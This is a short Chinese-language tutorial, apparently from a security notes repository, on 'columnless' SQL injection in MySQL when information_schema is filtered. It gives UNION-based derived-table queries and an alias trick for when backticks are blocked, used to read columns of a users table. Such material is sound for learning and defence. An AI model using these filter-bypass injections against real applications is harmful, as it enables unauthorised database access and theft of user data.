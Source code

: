 # 前言
> ​ 在 mysql => 5 的版本中存在库 information_schema 记录着 mysql 中所有表的结构；通常在 mysql 的 sql 注入中会通过此库中的表去获取其他表的表名，列名等，但是如果 information_schmea 因为某些原因被严格的过滤无法绕过的话，就可能可以通过无列名注入来获得数据信息

# 正常的查询
```sql
select * from `users`;  //正常在数据库查询时，表名需带反引号；在php端中并不需要
```

<img src="./images/2.png" alt="">

# 无列名查询
> 当正常的查询配合联合查询时，会得到一个临时的虚拟表

```sql
select 1,2,3 union select * from `users`;
```

<img src="./images/3.png" alt="">

> 此时可以看到列名被替换成了数字，因此利用这个临时的虚拟表可以进一步来查询对应列

```sql
select `2` from (select 1,2,3 union select * from `users`)a;    //需要注意每个派生表都需要一个自己的别名
```
<img src="./images/4.png" alt="">

> 如果反引号被过滤，同样继续用别名代替

```sql
select a from (select 1,2 as a,3 union select * from `users`)b;
```
<img src="./images/5.png" alt="">

> 